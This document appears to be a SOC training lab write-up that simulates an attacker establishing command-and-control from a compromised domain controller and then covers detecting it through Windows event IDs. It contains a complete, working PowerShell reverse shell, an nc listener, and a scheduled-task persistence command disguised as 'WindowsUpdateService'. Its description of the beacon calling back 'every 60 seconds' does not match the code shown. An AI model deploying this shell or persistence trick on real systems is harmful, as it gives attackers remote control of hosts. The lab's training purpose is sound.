


# Phase-3 Incident-02 Lab

## Command & Control Establishment via Scheduled Beaconing

---

## Objective

Simulate attacker establishing a **persistent command-and-control (C2) channel** from a compromised domain asset to an external attacker-controlled system.

This lab generates observable **beaconing behaviour and outbound communication telemetry** required for the Phase-3 incident report.

---

## Lab Topology

* **DC01** — Domain Controller (compromised)
* **WS01** — Initial foothold workstation
* **ATTACKER** — Kali or Windows attack VM (listener)

---

## Step 0 — Precondition (From Phase 3 Lab 1)

The attacker has already established persistence by:

* Creating or modifying a privileged account (`svc_backup`)
* Adding it to **Domain Admins**
* Verifying persistent administrative access

Previously, the attacker only creates a scheduled task that pings the attacker IP. 
The attacker now aims to maintain **active remote control without re-authentication** via a beacon.

---

## Step 1 — Prepare Attacker Listener

### Start listener on ATTACKER

```
nc -lvnp 4444
```

---

### Reasoning

Attackers prefer **outbound-initiated connections** because:

* Firewalls typically allow outbound traffic
* No need to expose inbound ports
* Reduces detection surface

---

## Step 2 — Create PowerShell C2 Beacon Script

### On DC01 with svc_backup account, create script:

```
notepad beacon.ps1
```

Paste:

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.56.10",4444)
$stream = $client.GetStream()
$bytes = New-Object byte[] 65535

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (Invoke-Expression $data 2>&1 | Out-String)
    $prompt = "PS " + (Get-Location).Path + "> "
    $response = $sendback + $prompt
    $sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($response)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```

---

### Reasoning

This script simulates:

* Reverse TCP beacon
* Periodic callback (every 60 seconds)
* Remote command execution

This mimics behaviour of real C2 frameworks (e.g., beaconing implants).

---

## Step 3 — Execute Beacon

### Run:

```
powershell -ExecutionPolicy Bypass -File beacon.ps1
```

---

### Observe on ATTACKER:

* Incoming connection from DC01
* Interactive command execution

Example:

```
whoami
hostname
ipconfig
```

---

### Reasoning

Attacker now has:

* Real-time remote execution
* No dependency on original access vector
* Continuous control channel

---

## Step 4 — Establish Persistence for C2

### Create scheduled task:

```
schtasks /create /sc minute /mo 5 /tn "WindowsUpdateService" /tr "powershell -ExecutionPolicy Bypass -File C:\beacon.ps1"
```

---

### Verify:

```
schtasks /query /tn "WindowsUpdateService"
```


---

### Reasoning

This ensures:

* Beacon restarts automatically
* Survives reboot
* Blends with legitimate scheduled tasks

---

## Step 5 — SOC Analyst Investigation

### Open Event Viewer

* `Win + R` → `eventvwr.msc`

---

### Check Scheduled Task Creation

* **Event ID 4698**

Look for:

* Task name: `WindowsUpdateService`
* Execution command:

  * `powershell -ExecutionPolicy Bypass -File C:\beacon.ps1`

> Note: This event may not be present due to default audit policy limitations.

---

### Check Process Execution

* **Event ID 4688**

Look for:

* Process: `powershell.exe`
* Command line indicating execution of `beacon.ps1`

> Note: Process creation logging is often disabled by default and may not be visible.

---

### Check Logon & Privilege Context

* **Event ID 4624** — Successful logon
* **Event ID 4672** — Special privileges assigned

Look for:

* Account: `svc_backup`
* Elevated privilege session associated with attacker activity

---

### Check Network Indicators

* Repeated outbound connections to same IP
* Unusual destination (ATTACKER machine)
* Persistent or periodic connection behaviour

> Note: Native Windows logging provides limited network visibility without additional tools (e.g., Sysmon).

---

## Step 6 — Investigation Correlation

Reconstruct attacker activity:

* PowerShell execution initiated
* Scheduled task created for persistence
* Repeated outbound connections observed
* Privileged account (`svc_backup`) used for execution

---

### Timeline Example

* 12:10:00 → PowerShell beacon executed
* 12:11:00 → First outbound connection
* 12:15:00 → Scheduled task created
* 12:20:00+ → Repeated beacon intervals

---

### Detection Insight

Sequence indicates:

* Establishment of command-and-control channel
* Persistence via scheduled execution
* Ongoing attacker interaction with compromised host

Key observation:

> Individual events may appear benign, but when correlated, they clearly indicate malicious activity.

---

## Lab Conclusion

The attacker successfully established a **persistent command-and-control channel** using a PowerShell-based reverse beacon.

By combining:

* Outbound communication
* Scheduled execution
* Remote command capability

the attacker achieves **continuous operational control** over the domain asset.

Despite limited native logging visibility, the attack can be reconstructed through:

* Scheduled task indicators
* Process execution patterns
* Privileged account activity
* Network behaviour anomalies

This phase transitions the attack from:

**Persistence → Active Control**
